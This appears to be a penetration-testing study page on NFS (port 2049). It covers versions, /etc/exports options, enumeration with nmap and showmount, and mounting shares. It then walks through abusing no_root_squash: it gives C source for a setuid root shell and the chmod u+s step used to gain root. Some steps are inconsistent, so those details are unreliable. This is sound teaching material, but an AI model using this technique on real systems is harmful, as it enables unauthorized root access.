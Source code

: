 ```yaml
---
title: Port 2049 -  NFS Network File System
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - smb
  - port 2049
  - port 111
  - NFS
  - Network File System
---
```

# Port 2049 -  NFS Network File System

Network File System (NFS) is a network file system developed by Sun Microsystems and has the same purpose as SMB. Its purpose is to access file systems over a network as if they were local. However, it uses an entirely different protocol. [NFS](https://en.wikipedia.org/wiki/Network_File_System) is used between Linux and Unix systems. This means that NFS clients cannot communicate directly with SMB servers. 

NFS is an Internet standard that governs the procedures in a distributed file system. While NFS protocol version 3.0 (`NFSv3`), which has been in use for many years, authenticates the client computer, this changes with `NFSv4`. Here, as with the Windows SMB protocol, the user must authenticate.

|**Version**|**Features**|
|---|---|
|`NFSv2`|It is older but is supported by many systems and was initially operated entirely over UDP.|
|`NFSv3`|It has more features, including variable file size and better error reporting, but is not fully compatible with NFSv2 clients.|
|`NFSv4`|It includes Kerberos, works through firewalls and on the Internet, no longer requires portmappers, supports ACLs, applies state-based operations, and provides performance improvements and high security. It is also the first version to have a stateful protocol.|


NFS is based on the Open Network Computing Remote Procedure Call (ONC-RPC/SUN-RPC) protocol exposed on TCP and UDP ports 111, which uses External Data Representation (XDR) for the system-independent exchange of data. The NFS protocol has no mechanism for authentication or authorization. Instead, authentication is completely shifted to the RPC protocol's options.


## Configuration file

The /etc/exports file contains a table of physical filesystems on an NFS server accessible by the clients. 

The default exports file also contains some examples of configuring NFS shares. First, the folder is specified and made available to others, and then the rights they will have on this NFS share are connected to a host or a subnet. Finally, additional options can be added to the hosts or subnets.

|**Option**|**Description**|
|---|---|
|`rw`|Read and write permissions.|
|`ro`|Read only permissions.|
|`sync`|Synchronous data transfer. (A bit slower)|
|`async`|Asynchronous data transfer. (A bit faster)|
|`secure`|Ports above 1024 will not be used.|
|`insecure`|Ports above 1024 will be used.|
|`no_subtree_check`|This option disables the checking of subdirectory trees.|
|`root_squash`|Assigns all permissions to files of root UID/GID 0 to the UID/GID of anonymous, which prevents `root` from accessing files on an NFS mount.|

We can take a look at the `insecure` option. This is dangerous because users can use ports above 1024. The first 1024 ports can only be used by root. This prevents the fact that no users can use sockets above port 1024 for the NFS service and interact with it.

## Mounting a NFS shared folder

```shell-session
# Share the folder `/mnt/nfs` to the subnet $ip
echo '/mnt/nfs  $ip/24(sync,no_subtree_check)' >> /etc/exports

# Restart the NFS service
systemctl restart nfs-kernel-server 

exportfs
```

We have shared the folder `/mnt/nfs` to the subnet `IP/24` with the setting shown above. This means that all hosts on the network will be able to mount this NFS share and inspect the contents of this folder.

## Footprinting the service

```shell-session
sudo nmap $ip -p111,2049 -sV -sC

# Also, run all NSE NFS scripts
sudo nmap --script nfs* $ip -sV -p111,2049

```

Once we have discovered such an NFS service, we can mount it on our local machine. For this, we can create a new empty folder to which the NFS share will be mounted. Once mounted, we can navigate it and view the contents just like our local system.

```shell-session
# Show Available NFS Shares
showmount -e $ip

# Mounting NFS Share
mkdir target-NFS
sudo mount -t nfs $ip:/ ./target-NFS/ -o nolock
cd target-NFS
tree .

# List Contents with Usernames & Group Names
ls -l mnt/nfs/

# List Contents with UIDs & GUIDs
ls -n mnt/nfs/

# Unmount the shared
sudo umount ./target-NFS
```

By default nfs server has root_squash option on, which makes client access nobody:nogroup. To bypass it, sudo su your user to be root.

## Attacking wrong configured NFS 

When an NFS volume is created, various options can be set:

| Option           | Description                                                                                                                                                                                                                                                                                   |
| ---------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `root_squash`    | If the root user is used to access NFS shares, it will be changed to the `nfsnobody` user, which is an unprivileged account. Any files created and uploaded by the root user will be owned by the `nfsnobody` user, which prevents an attacker from uploading binaries with the SUID bit set. |
| `no_root_squash` | Remote users connecting to the share as the local root user will be able to create files on the NFS server as the root user. This would allow for the creation of malicious scripts/programs with the SUID bit set.                                                                           |
This configuration can be checked out in the `/etc/exports` file:

```shell-session
cat /etc/exports
```

Enumerate NFS shares in the target:

```
# From the attacking machine
showmount -e $targetIP
```

Output:

```
Export list for 10.129.2.210:
/tmp             *
/var/nfs/general *
```

In the output, the wildcard (`*`) means that the NFS (Network File System) share is exported to all clients, meaning any system can mount the exported directories. 

If we could access the target machine and check the `/etc/exports` we would see something similar to:

```
/var/nfs/general *(rw,no_root_squash)
/tmp *(rw,no_root_squash)
```

Meaning that remote users connecting to the share as the local root user will be able to create files on the NFS server as the root user. 

```
# Mounting NFS Share in our attacking machine
sudo su
mkdir target-NFS
mount -t nfs $ip:/ ./target-NFS/ -o nolock
cd target-NFS
tree .
```

Now, from the target host we will create a binary:

```
# We can create a shell from the target machine:
nano shell.c
```

Content:

```shell-session
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>

int main(void)
{
  setuid(0); setgid(0); system("/bin/bash");
}
```

And from the target machine, we generate the binary:

```shell-session
gcc shell.c -o shell
```

Now, going back to the attacker machine, where we are logged as root, we can copy that binary:

```
cp shell shell2
```

We now **adds the "setuid" (Set User ID) permission** to the `/mnt/shell` binary. 

```shell-session
chmod u+s /mnt/shell
```

Going back to the target machine, when we run the binary we will be root.


We can also use NFS for lateral movement. For example, if we have access to the system via SSH and want to read files from another folder that a specific user can read, we would need to upload a shell to the NFS share that has the `SUID` of that user and then run the shell via the SSH user.


## More

[https://vk9-sec.com/2049-tcp-nfs-enumeration/](https://vk9-sec.com/2049-tcp-nfs-enumeration/).

